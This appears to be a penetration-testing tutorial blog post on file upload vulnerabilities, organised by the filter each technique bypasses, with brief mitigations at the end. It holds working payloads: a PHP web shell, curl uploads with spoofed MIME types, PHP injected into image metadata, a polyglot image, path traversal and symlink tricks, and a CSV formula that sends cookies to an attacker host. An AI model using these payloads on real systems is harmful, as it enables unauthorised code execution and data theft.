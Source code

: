 ```yaml
---
layout: article
title: "File Upload Attacks & Bypass Techniques"
date: 2025-03-18
categories: Web security
tags: security web tutorials penetration-testing best-practices file-upload
---
```


# **File Upload Attacks & Bypass Techniques**

File upload vulnerabilities arise when a server improperly handles user-uploaded files. Below are common file upload attack techniques categorized by the filtering methods they attempt to bypass.

---

## **1. No Filtering (Direct Execution)**
- **Attack:** Uploading a malicious executable file (e.g., `.php`, `.jsp`, `.exe`, `.sh`) and executing it.
- **Bypass:** No need for bypass; just upload a web shell.

### **Example: Basic PHP Web Shell**
```php
<?php system($_GET['cmd']); ?>
```
**Usage:** `http://example.com/uploads/shell.php?cmd=id`

---

## **2. Extension-Based Filtering**  
- **Filter:** Only allows specific extensions (e.g., `.jpg`, `.png`, `.pdf`).  
- **Bypass Techniques:**
  - **Double Extensions:** `shell.php.jpg`
  - **Case Manipulation:** `SHELL.PhP`
  - **Null Byte Injection:** `shell.php%00.jpg` (older PHP versions)
  - **MIME Type Spoofing:** Modifying request headers (e.g., `Content-Type: image/png`)
  - **Polyglot Files:** Embedding executable code in valid images/PDFs.

### **Example: Spoofing MIME Type with Burp Suite**
Modify the request before submission:
```http
POST /upload HTTP/1.1
Content-Type: image/png

[shell.php content]
```

---

## **3. MIME Type Filtering**  
- **Filter:** Server checks MIME type in headers (`image/jpeg`, `application/pdf`).  
- **Bypass Techniques:**
  - **Tampering with HTTP Headers** using Burp Suite.
  - **Using File Upload APIs Incorrectly** (some apps trust the client-side MIME check).

### **Example: Uploading Malicious File via `curl`**
```bash
curl -F 'file=@shell.php;type=image/png' http://example.com/upload
```

---

## **4. Content-Based Filtering**  
- **Filter:** Server inspects file content for malicious code.  
- **Bypass Techniques:**
  - **Encoding Payloads:** Base64, gzip, or hex encoding.
  - **Obfuscation:** Breaking patterns (e.g., `<?p\h\p eval($_GET['cmd']); ?>`)
  - **Appending Fake Image Headers:** Embedding PHP payload inside an image.

### **Example: PHP Code in Image Metadata**
```bash
exiftool -Comment='<?php system($_GET["cmd"]); ?>' image.jpg
```

---

## **5. Directory Restriction (Upload Location)**  
- **Filter:** Files are uploaded to a non-executable directory.  
- **Bypass Techniques:**
  - **Path Traversal:** `../../var/www/html/shell.php`
  - **Symlink Attack:** Linking an allowed file type to a malicious script.
  - **Race Condition:** Uploading a safe file and quickly replacing it.

### **Example: Symlink Attack**
```bash
ln -s /var/www/html/shell.php safe.jpg
```

---

## **6. Client-Side Validation (JavaScript-Based)**  
- **Filter:** JavaScript checks file extension or size before submission.  
- **Bypass Techniques:**
  - **Disable JavaScript** in browser dev tools.
  - **Modify HTTP Request** using Burp Suite.
  - **Use a Custom Upload Script** (`curl`, `requests` in Python).

### **Example: Uploading Directly via `curl`**
```bash
curl -F 'file=@shell.php' http://example.com/upload
```

---

## **7. Image-Only Uploads (Strict Validation)**  
- **Filter:** Server verifies image integrity (`exif_imagetype()`, `getimagesize()`).  
- **Bypass Techniques:**
  - **Appending PHP Payload to Image Metadata:** `exiftool`
  - **Embedding Payload in Image Data:** Steganography.
  - **Leveraging Weak Parsers:** Manipulating image files.

### **Example: JPEG Polyglot (PHP + Image Header)**
```php
GIF89a;
<?php system($_GET['cmd']); ?>
```
---

## **8. Cloud Storage (S3, Google Drive, etc.)**  
- **Filter:** Files are stored separately with no execution permissions.  
- **Bypass Techniques:**
  - **Signed URL Hijacking:** Using pre-signed URLs for unauthorized access.
  - **XSS via File Preview:** Uploading JavaScript-embedded HTML/CSV files.

### **Example: XSS via CSV Upload**
```csv
=IMPORTXML("http://attacker.com/?cookie="&ENCODEURL(A1))
```
---

## **Mitigation Strategies**
✅ **Server-Side Validation:** Always check the file type and contents on the server.  
✅ **Use Safe Storage Locations:** Store uploads outside webroot.  
✅ **Strict MIME and Content Filtering:** Don’t rely on extensions alone.  
✅ **Disable Script Execution:** Block execution in upload directories.  
✅ **Randomized Filenames:** Prevent attackers from predicting and accessing files.

---
# YouTube Videos

Check out this awesome videos:

<iframe width="560" height="315" 
        src="https://www.youtube.com/embed/ZWG1nNdUnBc" 
        frameborder="0" 
        allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" 
        allowfullscreen>
</iframe>
<iframe width="560" height="315" 
        src="https://www.youtube.com/embed/BJhTZlg5Ig8" 
        frameborder="0" 
        allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" 
        allowfullscreen>
</iframe>

💡 **Pro Tip:** Always test for multiple bypass techniques—many real-world applications fail at multiple levels. 🚀
